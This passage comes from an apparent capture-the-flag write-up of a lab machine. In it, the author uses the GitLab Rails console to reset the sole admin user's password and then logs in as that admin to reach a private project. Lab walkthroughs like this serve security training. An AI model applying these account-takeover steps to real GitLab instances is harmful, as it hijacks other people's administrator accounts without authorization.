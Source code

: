 ![adm](/assets/img/Posts/Laboratory/adm.png)

Now we can see admin icon on our account, as a result we can now access Dexter's `SecureDocker` Project.

#### Password reset - Dexter

We saw Dexter is the only admin, so we can even reset his password:

```ruby
git@git:/$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)

irb(main):001:0> user = User.where(id: 1).first
=> #<User id:1 @dexter>
irb(main):002:0> user.password = 'cold_fusion'
=> "cold_fusion"
irb(main):003:0> user.password_confirmation = 'cold_fusion'
=> "cold_fusion"
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: f4543159-759e-4879-885e-8688d65ec401) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa1b4dcbda8 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> exit()
```

### SSH - Dexter

Now we can login to GitLab as dexter where we see another Project `SecureDocker` :

![dexter](/assets/img/Posts/Laboratory/dexter.png)
